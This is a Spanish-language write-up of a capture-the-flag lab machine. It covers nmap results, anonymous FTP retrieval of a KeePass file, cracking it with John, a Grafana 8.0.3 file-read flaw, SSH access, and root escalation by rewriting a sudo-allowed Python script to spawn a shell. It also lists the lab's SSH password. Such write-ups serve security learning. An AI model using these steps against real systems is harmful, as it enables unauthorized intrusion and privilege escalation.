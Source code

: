 # Info
## IP Víctima
```
172.17.0.2
```
## SSH root
#### Usuario
```
freddy
```
#### Pass
```
t9sH76gpQ82UFeZ3GXZS
```
# Writeup
## Nmap
Como de costumbre hacemos un escaneo nmap para identificar que servicios hay corriendo en cada puerto y en que versión están.
``` bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    1 0        0            4096 Mar 29  2024 mantenimiento [NSE: writeable]
22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   256 77:0b:34:36:87:0d:38:64:58:c0:6f:4e:cd:7a:3a:99 (ECDSA)
|_  256 1e:c6:b2:91:56:32:50:a5:03:45:f3:f7:32:ca:7b:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Debian)
3000/tcp open  http    Grafana http
|_http-trane-info: Problem with XML parsing of /evox/about
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Grafana
|_Requested resource was /login
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X

```
En primer lugar, salta a la vista el puerto 21, en el cual esta corriendo un FTP mediante vsftpd 3.0.3, una versión vulnerable al denial of service, cosa que no nos interesa para esta ocasión. También se observa un ssh Openssh que por ahora no me interesa mucho. Tanto el puerto 80 como el 3000 estan corriendo un HTTP, Apache 2.4.58 en el 80 y Grafana en el 3000, a esto volveremos con seguridad más tarde.
## Servicio FTP
Como el puerto FTP permite login como anon entro y me encuentro con el directorio /mantenimiento, dentro del cual hay un archivo keepass llamado database, lo sacamos con `wget database.kdbx` y después de una búsqueda rápida en google encuentro que con john es posible crackear este tipo de archivos. La versión actual de John the ripper no admite esta versión de archivos keepass así que lo actualizo tirando de repositorio.
## Esperando a John 
Mientras espero a la actualización de john hago un par de fuzzeos de directorios, encuentro un /maintenance.html que lee: `Website under maintenance, access is in /tmp/pass.txt` lo cual seguramente podamos aprovechar en post explotación, en el puerto 3000 hay un login de Grafana que espero poder superar con credenciales que pueda haber en el KeePass. 
## FF
Después de un rato perdido me pongo una guía, resulta que Grafana tiene una vulnerabilidad en la versión 8.0.3 que permite leer archivos, aprovechando esta vulnerabilidad podemos leer la clase que hay en /tmp/pass.txt con la cual se puede acceder al Keepass, con las credenciales encontradas allí se puede entrar mediante ssh al usuario freddy
## Post explotación
Después de un `sudo -l` veo que python3 tiene permisos sin contraseña, y el usuario freddy puede escribir sobre maintenance.py, por lo que cambio el código dentro de dicho archivo por 
`import os;os.system('/bin/bash')` y ejecuto `sudo /usr/bin/python3 /opt/maintenance.py` ganando privilegios de root al instante.
``` bash
┌──(freddy㉿f36cebd9a190)-[/opt]
└─$ sudo -l
Matching Defaults entries for freddy on f36cebd9a190:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on f36cebd9a190:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py

┌──(freddy㉿f36cebd9a190)-[/opt]
└─$ cat maintenance.py 
import os;os.system('/bin/bash')


┌──(freddy㉿f36cebd9a190)-[/opt]
└─$ sudo /usr/bin/python3 /opt/maintenance.py
┌──(root㉿f36cebd9a190)-[/opt]
└─# whoami
root

┌──(root㉿f36cebd9a190)-[/opt]
└─# 

```
